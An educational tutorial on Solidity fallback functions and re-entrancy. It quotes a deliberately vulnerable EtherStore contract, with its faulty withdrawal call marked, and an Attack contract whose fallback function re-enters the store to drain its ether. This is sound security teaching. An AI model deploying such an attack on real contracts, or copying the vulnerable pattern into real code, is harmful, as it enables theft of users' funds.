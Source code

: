 # Re-entrancy

## Overview

### Fallback Functions

Before we learn about re-entrancy and how to prevent it, we need to learn about its primary facilitator: fallback functions.

Originally, the main purpose of fallback functions was to catch ether that was accidentally sent to a contract. You could use a plain one, which would throw an exception whenever the contract receives some ether:

```fallback() external { }```
Or you could give it the ability to ingest the ether and add it to the contract balance, and even perform some simple logic:
```
mapping (address => uint) public etherSent;

fallback() external payable {
  etherSent[msg.sender] += msg.value;
}
```
  
Each contract can have up to one fallback function. It has no name, no arguments, no return value, and can only be called by external accounts or contracts. It's executed when a call to the contract doesn't match any of the functions in the contract, or when Ether is sent to the contract without any accompanying data.
By this point, many of us know how resourceful hackers and engineers are. Many of you may be thinking about your own clever uses for a fallback function. You can check out the Delegate Proxy pattern, or EIP-2535 *The Diamond Standard* for ideas. But those aren't what we're here for. We're here to talk about using fallback functions for **evil**.
### Re-Entrancy
The beauty of the Ethereum ecosystem is in its composability and its permissionless, trustless nature. Utilizing code of external contracts is an important part of our burgeoning defi ecosystem. Calling these contracts, however, or sending Ether to them can create opportunities for hackers.
Remember what happens when an external call doesn't match any of the receiving contract's function signatures? A fallback function catches it. And inside that fallback function, arbitrary logic can be executed. Where arbitrary logic can be executed, of course hackers will find a way to perform unexpected operations. In re-entrancy, hackers use this logic to call the offending contract again *and again and again...*, to alter its state before the original function can finish executing. 
Take the below contract for example. written up by Sigma Prime:
```
contract EtherStore {

    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;

    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
----->  require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
 ```
 
 And check out their accompanying "Attack" contract:
 
 ```
 import "EtherStore.sol";

contract Attack {

  EtherStore public etherStore;

  // initialise the etherStore variable with the contract address

  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }

  function pwnEtherStore() public payable {
      // attack to the nearest ether
      require(msg.value >= 1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(1 ether)();
      // start the magic
      etherStore.withdrawFunds(1 ether);
  }

  function collectEther() public {
      msg.sender.transfer(this.balance);
  }

  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 1 ether) {
          etherStore.withdrawFunds(1 ether);
      }
  }
}
```
Try to figure out exactly what's happening here. I've marked the vulnerable line of code in the first contract with an arrow.
